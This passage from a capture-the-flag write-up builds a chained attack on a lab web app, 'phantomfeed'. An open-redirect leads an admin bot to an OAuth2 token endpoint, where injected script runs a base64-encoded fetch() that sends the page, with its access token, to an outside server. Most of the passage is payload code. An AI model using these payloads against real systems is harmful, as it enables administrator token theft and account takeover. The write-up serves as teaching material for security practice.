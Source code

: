 We can leverage alongside the open-redirect to cause the admin-bot to validate our own auth code and then leak it's access token and sign in to the market as an administrator.

Let's construct the exploit step by step.

First we need to point the bot to the open-redirect, this can be done using three slashes as described in the github issue.

```
///
```

Then we need to make the admin-bot to visit the `/phantomfeed/oauth2/token` with our own auth code as a parameter.

```
///127.0.0.1:1337/phantomfeed/oauth2/token?authorization_code=<your_auth_code>
```

Then we need to add the `client_id` and `redirect_url` parameters.

```
///127.0.0.1:1337/phantomfeed/oauth2/token?authorization_code=<your_auth_code>&client_id=phantom-market&redirect_url=<script>alert(0)</script>
```

Now we must create the javascript payload that would leak the access token from the current html.

```js
fetch(`http://yourserver.com?c=${btoa(document.documentElement.outerHTML)}`,{mode:'cors'})
```

Then we encode it using base64.

```
ZmV0Y2goYGh0dHBzOi8vNTJlMi0yYTAyLTg1Zi1lNGM3LTNlYTItYjE3Yi1jYjYyLTExNTYtYTE3OC5uZ3Jvay5pbz9jPSR7YnRvYShkb2N1bWVudC5kb2N1bWVudEVsZW1lbnQub3V0ZXJIVE1MKX1gLHttb2RlOidjb3JzJ30p
```

And then we use the `eval` and `atob` functions to run the encoded javascript at the injection point.

```
///127.0.0.1:1337/phantomfeed/oauth2/token?authorization_code=<your_auth_code>&client_id=phantom-market&redirect_url=<script>eval(atob('ZmV0Y2goYGh0dHBzOi8vNTJlMi0yYTAyLTg1Zi1lNGM3LTNlYTItYjE3Yi1jYjYyLTExNTYtYTE3OC5uZ3Jvay5pbz9jPSR7YnRvYShkb2N1bWVudC5kb2N1bWVudEVsZW1lbnQub3V0ZXJIVE1MKX1gLHttb2RlOidjb3JzJ30p'))</script>
```

Finally we url-encode the whole payload.

```
///127.0.0.1:1337/phantomfeed/oauth2/token?authorization_code=<your_auth_code>&client_id=phantom-market&redirect_url=%3Cscript%3Eeval%28atob%28%27ZmV0Y2goYGh0dHBzOi8vNTJlMi0yYTAyLTg1Zi1lNGM3LTNlYTItYjE3Yi1jYjYyLTExNTYtYTE3OC5uZ3Jvay5pbz9jPSR7YnRvYShkb2N1bWVudC5kb2N1bWVudEVsZW1lbnQub3V0ZXJIVE1MKX1gLHttb2RlOidjb3JzJ30p%27%29%29%3C%2Fscript%3E
```

Making a post with "market link" set to our payload will make the bot with admin rights visit the open-redirect which will redirect it to the XSS vulnerable OAUTH2 endpoint which will cause the validation of our own arbitrary OAUTH2 auth code and create an access token that we can leak using CSRF.
